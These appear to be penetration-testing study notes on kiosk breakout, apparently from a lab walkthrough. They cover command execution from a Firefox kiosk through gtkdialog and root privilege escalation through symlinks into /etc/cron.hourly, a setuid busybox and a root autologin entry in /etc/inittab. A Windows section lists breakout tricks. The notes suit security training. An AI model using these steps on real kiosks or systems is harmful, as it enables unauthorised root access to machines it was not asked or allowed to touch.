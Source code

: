     1. Kiosk Enumeration
        //xtigervncviewer for vnc
    2. Command Execution
        //Breakout:  irc://myhost -P "haxor" - select open w/ Firefox
        //Enumeration:  file:///etc/passwd; file:///proc/version
        //Writing Files:  Web Developer Tools > Scratchpad
            //Command Execution: write an html interface file, then open w/ gtkdialog: irc://myhost -f /home/guest/mywindow
                <window>
                    <vbox>
                        <frame Description>
                            <text>
                                <label>This is an example window.</label>
                                    </text>
                        </frame>
                        <hbox>
                            <button ok>
                            <action>echo "testing gtk" > /tmp/gtkoutput.txt</action>
                            </button>
                            <button cancel></button>
                        </hbox>
                    </vbox>
                </window>
    3. Post-Exploitation
        //Create Pseudo-Terminal File (replace left carot from file:///var/www/localhost/index.html):
            <window>
                <vbox>
                    <vbox scrollable="true" width="500" height="400">
                        <edit>
                            <variable>CMDOUTPUT</variable>
                            input file>/tmp/termout.txt</input>
                        </edit>
                    </vbox>
                    <hbox>
                        <text><label>Command:</label></text>
                        <entry><variable>CMDTORUN</variable></entry>
                        <button>
                            <label>Run!</label> 
                            <action>$CMDTORUN > /tmp/termout.txt</action>
                            <action>refresh:CMDOUTPUT</action> 
                        </button>
                    </hbox>
                </vbox>
            </window>
    4. Privilege Escalation
        //check processes - ex. OpenBox running as root
            //can restart w/ 'openbox --replace' - writes bookmarks file as root to same place each time in guest's directory
                //Write to Priv Directory:  ln -s /usr/bin /home/guest/.mozilla/firefox/c3pp43bg.default, then restart openbox
                    //Changing its contents - testscript.sh:
                        echo "#!/bin/bash" > /usr/bin/bookmarks.html
                        echo "gtkdialog -f /home/guest/terminal.txt" >> /usr/bin/bookmarks.html
                    //if the bookmarks.html file was called something.sh, we could add its name to /etc/profile.d
                    //Solution - cron: link our bookmark file to /etc/cron.hourly, then get it to write with openbox --replace:
                        ln -s /etc/cron.hourly /home/guest/.mozilla/firefox/c3pp43bg.default
                    //Create Scratchpad script and run:
                        echo "#!/bin/bash" > /etc/cron.hourly/bookmarks.html
                        echo "chown root:root /home/guest/busybox" >> /etc/cron.hourly/bookmarks.html
                        echo "chmod +s /home/guest/busybox" >> /etc/cron.hourly/bookmarks.html
                //Run commands as root:
                    //Create runterminal.sh:
                        #!/bin/bash
                        /usr/bin/gtkdialog -f /home/guest/terminal.txt
                    //Run to get terminal:  /home/guest/busybox sh /home/guest/runterminal.sh     
            //To get a real terminal:
                xdotool key Ctrl+Alt+F3 - doesn't work here
                Modify /etc/X11/xorg.conf.d/10-xorg.conf and comment out "DontVTSwitch", put it back, then openbox --replace
                //Add to /etc/inittab:  c3::respawn:/sbin/agetty --noclear --autologin root 38400 tty3 linux
                    //and reload:  /sbin/init q
                //then xdotool key Ctrl+Alt+F3 to switch to tty terminal
                    //but for vnc:  
                        #!/bin/bash
                        killall x11vnc 
                        x11vnc -rawfb vt3
    5. Windows Kiosk Breakout Techniques
        //Environmental variables:
            Enviroment variable Location
            %ALLUSERSPROFILE% C:\Documents and Settings\All Users
            %APPDATA% C:\Documents and Settings\Username\Application Data
            %COMMONPROGRAMFILES% C:\Program Files\Common Files
            %COMMONPROGRAMFILES(x86)% C:\Program Files (x86)\Common Files
            %COMSPEC% C:\Windows\System32\cmd.exe
            %HOMEDRIVE% C:\
            %HOMEPATH% C:\Documents and Settings\Username
            %PROGRAMFILES% C:\Program Files
            %PROGRAMFILES(X86)% C:\Program Files (x86) (only in 64-bit version)
            %SystemDrive% C:\
            %SystemRoot% C:\Windows
            %TEMP% and %TMP% C:\Documents and Settings\Username\Local Settings\Temp
            %USERPROFILE% C:\Documents and Settings\Username
            %WINDIR% C:\Windows
        //Network paths:   \\127.0.0.1\C$\Windows\System32\
        //file browser "shell" shortcut:
            shell:System Opens the system folder
            shell:Common Start Menu Opens the Public Start Menu folder
            shell:Downloads Opens the current user’s Downloads folder
            shell:MyComputerFolder Opens the “This PC” window, showing devices and drives for the system
        //help dialog search with shortcut links
        //shortcut creation/modification
        //always try to right click
        //drag and drop onto cmd icon to open
        //file>print>etc.
        //ctrl+alt+del or ctrl+alt+esc for task mgr; other keyboard shortcuts
        //bypass application blacklisting by copying and renaming
